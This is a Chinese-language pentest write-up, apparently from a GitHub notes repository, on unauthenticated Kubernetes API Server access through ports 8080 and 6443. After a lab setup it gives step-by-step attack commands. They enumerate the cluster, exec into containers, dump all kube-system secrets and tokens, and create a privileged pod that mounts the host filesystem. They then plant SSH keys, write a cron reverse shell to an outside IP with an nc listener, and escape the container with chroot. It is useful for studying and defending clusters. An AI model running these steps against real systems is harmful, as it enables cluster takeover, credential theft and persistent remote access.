 # K8s API Server未授权命令执行

# K8s API Server未授权命令执行

## 漏洞描述

Kubernetes是一个可以移植、可扩展的开源平台，使用 声明式的配置 并依据配置信息自动地执行容器化应用程序的管理。在所有的容器编排工具中（类似的还有 docker swarm / mesos等），Kubernetes的生态系统更大、增长更快，有更多的支持、服务和工具可供用户选择。

K8s 的API Server默认服务端口为8080(insecure-port)和6443(secure-port)，8080端口提供HTTP服务，没有认证授权机制，而6443端口提供HTTPS服务，支持认证(使用令牌或客户端证书进行认证)和授权服务。默认情况下8080端口不启动，而6443端口启动。这两个端口的开放取决于/etc/kubernetes/manifests/kube-apiserver.yaml配置文件。

如果目标K8s的8080端口开启了，由于其没有认证授权机制，因此存在未授权访问。

如果目标K8s的6443端口开启了，如果配置错误，也可以导致存在未授权访问。

## 漏洞复现

### 8080端口

默认情况下，8080端口关闭的，手动开启：

```
cd /etc/kubernetes/manifests
vim kube-apiserver.yaml
```

高版本的k8s中，将--insecure-port这个配置删除了，因此添加如下两行：

```

- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
```

![image-20230215102911534](images/image-20230215102911534.png)

重启k8s：

```
systemctl restart kubectl
```

访问8080端口即可看到存在未授权：

![image-20230215110103802](images/image-20230215110103802.png)

也可以使用kubectl远程连接获得信息：

```
kubectl -s http://your-vps-ip:8080 get nodes
```

注：在高版本（1.20及其以后）的K8s中直接禁用了该端口，并且无法打开。

### 6443端口

如果运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，则会使得6443端口允许匿名用户以管理员权限访问。

正常情况下访问6443端口，提示Forbidden。

![image-20230215110607076](images/image-20230215110607076.png)

执行如下命令将"system:anonymous"用户绑定到"cluster-admin"用户组：

```
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
```

再次访问访问6443端口，即可未授权访问。

## 漏洞利用

### 命令执行

#### 查看k8s集群信息

```
kubectl -s http://your-vps-ip:8080 cluster-info
```

#### 查看node节点信息

```
#查看node节点
kubectl -s http://your-vps-ip:8080 get nodes

#查看node节点详细信息
kubectl -s http://your-vps-ip:8080 get nodes -o wide
```

#### 查看pod节点信息

```
#查看所有的pod
kubectl -s http://your-vps-ip:8080 get pods -A
```

#### 执行其他命令

通过获取到的pods节点信息，进入对应docker 命令执行。-n对应的是NAMESPACE，-it 对应的是NAME：

```
#进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-vps-ip:8080 exec -n default -it hello-minikube -- /bin/bash

#进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-vps-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
```

### 获取Token登录dashboard

访问如下接口，即可看到K8s所有的Token，我们过滤找到dashboard-admin相关的Token。

```
http://your-vps-ip:8080/api/v1/namespaces/kube-system/secrets/

https://your-vps-ip:6443/api/v1/namespaces/kube-system/secrets/
```

然后对其base64解码一次，即可使用base64解码后的Token登录K8s的dashboard。

### 获取宿主机权限

#### 创建pod

通过k8s dashboard，创建特权Pods来获得宿主机权限。登录dashboard后台后，点击右上角+号，然后输入如下命JSON内容，创建名为myapp的pod，并且将宿主机的目录挂在到了/mnt目录下：

```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /
```

点击工作负载→Pods，可以看到刚才创建的pod。

点击myapp名称。点击右上角进入Shell窗口。

#### 写入ssh公钥

切换到/mnt/root/.ssh目录下，写入公钥文件，即可免密登录宿主机。

#### 定时任务反弹shell

也可以往宿主机写入crontab来反弹获取shell，执行如下命令，将反弹shell的命令写入/var/spool/cron/root文件中：

```
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
```

nc监听接收反弹shell：

```
$ nc -lvp 4444
```

#### chroot逃逸

```
chroot /mnt
```


